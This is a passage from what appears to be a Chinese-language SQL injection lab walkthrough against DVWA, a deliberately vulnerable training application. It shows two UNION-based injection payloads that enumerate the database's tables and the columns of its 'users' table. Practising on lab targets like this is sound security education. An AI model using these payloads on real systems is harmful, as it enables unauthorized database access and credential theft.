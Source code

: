根据上一步我们知道了我们数据库的名称，我们可以只查看 dvwa 数据库的表有哪些：

```
' or 1=1 union select null, table_name from information_schema.tables where table_schema='dvwa' #
```

![show-tables-dvwa](../imgs/wm_143.png)

通过上述的结果我们可以了解到，数据库中所有表的名称，通过表名我们还可以通过这样的方式查看所有的表项：

```
' or 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![show-tables-items](../imgs/wm_144.png)